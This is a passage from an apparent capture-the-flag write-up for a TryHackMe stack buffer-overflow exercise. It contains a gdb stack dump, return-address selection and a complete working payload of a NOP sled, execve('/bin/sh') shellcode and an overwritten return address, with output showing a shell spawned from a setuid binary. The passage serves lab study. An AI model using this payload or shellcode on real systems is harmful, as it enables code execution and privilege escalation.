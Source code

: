 ```sh
0x7fffffffe258: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe268: 0x90909090      0x90909090      0x90909090      0x90909090 <---- e.g. here
0x7fffffffe278: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe288: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe298: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe2a8: 0x90909090      0x90909090      0x90909090      0x622fb948
0x7fffffffe2b8: 0x732f6e69      0xc1481168      0xc14808e1      0x485108e9
0x7fffffffe2c8: 0x48243c8d      0x3bb0d231      0x4242050f      0x42424242
0x7fffffffe2d8: 0x42424242      0x43434242      0x43434343      0x00007f00
0x7fffffffe2e8: 0x00400590      0x00000000      0xffffe3e8      0x00007fff
0x7fffffffe2f8: 0x00000000      0x00000002      0x004005a0      0x00000000
0x7fffffffe308: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe318: 0xffffe3e8      0x00007fff      0x00040000      0x00000002
0x7fffffffe328: 0x00400564      0x00000000      0x00000000      0x00000000
0x7fffffffe338: 0xdb621c60      0x310de389      0x00400450      0x00000000
0x7fffffffe348: 0xffffe3e0      0x00007fff      0x00000000      0x00000000
0x7fffffffe358: 0x00000000      0x00000000      0x16021c60      0xcef21cf6
0x7fffffffe368: 0x8fe61c60      0xcef20c41      0x00000000      0x00000000
0x7fffffffe378: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe388: 0xffffe400      0x00007fff      0xf7ffe130      0x00007fff
0x7fffffffe398: 0xf7de7656      0x00007fff      0x00000000      0x00000000
0x7fffffffe3a8: 0x00000000      0x00000000      0x00000000      0x00000000
```

pick ANY address where you see a bunch of `0x90909090` in the columns.

I choose: `0x7fffffffe268` we need to convert to little endian: `\x68\xe2\xff\xff\xff\x7f`

### payload + shellcode return address

:::danger

DONT use the shellcode from the THM ROOM, it's all shit & doesn't work.

Use l1ge's one instead.

:::

run it in gdb:

```sh
(gdb) run $(python -c "print '\x90'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*12 + '\x68\xe2\xff\xff\xff\x7f'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print '\x90'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*12 + '\x68\xe2\xff\xff\xff\x7f'")
Here's a program that echo's out your input
����������������������������������������������������������������������������������������������������j;XH1�I�//bin/shI�APH��RWH��j<XH1�BBBBBBBBBBBBh����
process 3468 is executing new program: /usr/bin/bash
sh-4.2$ ls
Detaching after fork from child process 3476.
buffer-overflow  buffer-overflow.c  secret.txt
sh-4.2$ whoami
Detaching after fork from child process 3477.
user1
sh-4.2$ ll
Detaching after fork from child process 3478.
sh: ll: command not found
sh-4.2$ ls -l
Detaching after fork from child process 3479.
total 20
-rwsrwxr-x 1 user2 user2 8264 Sep  2  2019 buffer-overflow
```